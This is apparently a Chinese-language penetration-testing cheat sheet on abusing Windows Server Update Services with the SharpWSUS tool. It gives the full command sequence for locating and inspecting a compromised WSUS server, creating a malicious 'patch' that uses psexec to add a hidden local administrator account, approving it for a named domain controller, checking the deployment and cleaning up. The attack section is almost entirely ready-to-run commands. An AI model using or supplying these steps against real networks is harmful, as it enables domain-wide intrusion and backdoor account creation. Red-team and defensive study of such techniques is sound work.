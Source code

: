 	Windows Server Update Services (WSUS) 使信息技术管理员能够部署最新的 Microsoft 产品更新。您可以使用 WSUS 全面管理通过 Microsoft Update 发布到网络上的计算机的更新的分发
	有效负载必须是 Microsoft 签名的二进制文件，并且必须指向磁盘上的某个位置，以便 WSUS 服务器加载该二进制文件。
	https://github.com/nettitude/SharpWSUS
	使用HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate或定位SharpWSUS.exe locate
	WSUS 服务器入侵后：SharpWSUS.exe inspect
	创建恶意补丁：SharpWSUS.exe create /payload:"C:\Users\ben\Documents\pk\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \"net user WSUSDemo Password123! /add && net localgroup administrators WSUSDemo /add\"" /title:"WSUSDemo"
	在目标上部署它：SharpWSUS.exe approve /updateid:5d667dfd-c8f0-484d-8835-59138ac0e127 /computername:bloredc2.blorebank.local /groupname:"Demo Group"
	检查状态部署：SharpWSUS.exe check /updateid:5d667dfd-c8f0-484d-8835-59138ac0e127 /computername:bloredc2.blorebank.local
	清理：SharpWSUS.exe delete /updateid:5d667dfd-c8f0-484d-8835-59138ac0e127 /computername:bloredc2.blorebank.local /groupname:”Demo Group